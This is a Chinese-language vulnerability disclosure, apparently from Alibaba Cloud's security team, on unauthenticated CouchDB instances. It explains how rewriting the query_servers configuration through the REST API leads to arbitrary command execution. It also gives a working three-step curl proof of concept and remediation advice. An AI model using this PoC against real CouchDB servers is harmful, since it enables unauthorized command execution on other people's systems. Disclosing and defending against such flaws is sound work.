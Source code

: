 # 利用CouchDB未授权访问漏洞执行任意系统命令

0x00 前言
=====

5月16日阿里云盾攻防对抗团队从外部渠道获知CouchDB数据库存在未授权访问漏洞（在配置不正确的情况下）。经过测试，云盾团队率先发现利用该未授权访问漏洞不仅会造成数据的丢失和泄露，`甚至可执行任意系统命令`。云盾安全专家团队第一时间完成了漏洞上报、安全评级，并通知了所有可能受影响的用户。下面将对该漏洞的出处和技术细节做详细解释。

0x01 漏洞的来龙去脉
=====

CouchDB 是一个开源的面向文档的数据库管理系统，可以通过`RESTful JavaScript Object Notation (JSON) API`访问。CouchDB会默认会在5984端口开放Restful的API接口，用于数据库的管理功能。

那么，问题出在哪呢？翻阅官方描述会发现，CouchDB中有一个`Query_Server`的配置项，在官方文档中是这么描述的：

> CouchDB delegates computation of design documents functions to external query servers. The external query server is a special OS process which communicates with CouchDB over standard input/output using a very simple line-based protocol with JSON messages.

直白点说，就是CouchDB允许用户指定一个二进制程序或者脚本，与CouchDB进行数据交互和处理，`query_server`在配置文件local.ini中的格式：

```
[query_servers]
LANGUAGE = PATH ARGS

```

默认情况下，配置文件中已经设置了两个query_servers:

```
[query_servers]
javascript = /usr/bin/couchjs /usr/share/couchdb/server/main.js
coffeescript = /usr/bin/couchjs /usr/share/couchdb/server/main-coffee.js

```

可以看到，CouchDB在`query_server`中引入了外部的二进制程序来执行命令，如果我们可以更改这个配置，那么就**可以利用数据库来执行命令了**，但是这个配置是在local.ini文件中的，如何控制呢？

继续读官方的文档，发现了一个有意思的功能，CouchDB提供了一个API接口用来更改自身的配置，并把修改后的结果保存到配置文件中：

> The CouchDB Server Configuration API provide an interface to query and update the various configuration values within a running CouchDB instance

![](http://drops.javaweb.org/uploads/images/05a927299b50f874e174d66084cd97cdb8fae3c1.jpg)

也就是说，除了`local.ini`的配置文件，CouchDB允许通过自身提供的`Restful API`接口动态修改配置属性。结合以上两点，**我们可以通过一个未授权访问的CouchDB**，通过修改其`query_server`配置，来执行系统命令。

0x02 漏洞的POC
=====

新增`query_server`配置，这里执行ifconfig命令

```
curl -X PUT 'http://1.1.1.1:5984/_config/query_servers/cmd' -d '"/sbin/ifconfig >/tmp/6666"'

```

新建一个临时表，插入一条记录

```
curl -X PUT 'http://1.1.1.1:5984/vultest'
curl -X PUT 'http://1.1.1.1:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'

```

调用`query_server`处理数据

```
curl -X POST 'http://1.1.1.1:5984/vultest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'

```

![](http://drops.javaweb.org/uploads/images/8834e9098dde132b0c0ee6625b96af6f3c8a383a.jpg)

执行后，可以看到，指定的命令已经成功执行：

![](http://drops.javaweb.org/uploads/images/6595b3b6d031fd612fbb7934a90d7de69aa2d355.jpg)

至于如何回显执行结果，各位可以动动脑筋，欢迎互动。

0x03 漏洞修复建议：
=====

1、指定CouchDB绑定的IP （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 文件中找到 “bind_address = 0.0.0.0” ，把 0.0.0.0 修改为 127.0.0.1 ，然后保存。注：修改后只有本机才能访问CouchDB。

2、设置访问密码 （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 中找到“[admins]”字段配置密码。

附：参考链接：

*   [http://blog.rot13.org/2010/11/triggers-in-couchdb-from-queue-to-external-command-execution.html](http://blog.rot13.org/2010/11/triggers-in-couchdb-from-queue-to-external-command-execution.html)
*   [http://docs.couchdb.org/en/1.6.1/api/server/configuration.html#api-config](http://docs.couchdb.org/en/1.6.1/api/server/configuration.html#api-config)
*   [http://docs.couchdb.org/en/1.6.1/intro/api.html](http://docs.couchdb.org/en/1.6.1/intro/api.html)
*   [http://docs.couchdb.org/en/1.6.1/config/query-servers.html](http://docs.couchdb.org/en/1.6.1/config/query-servers.html)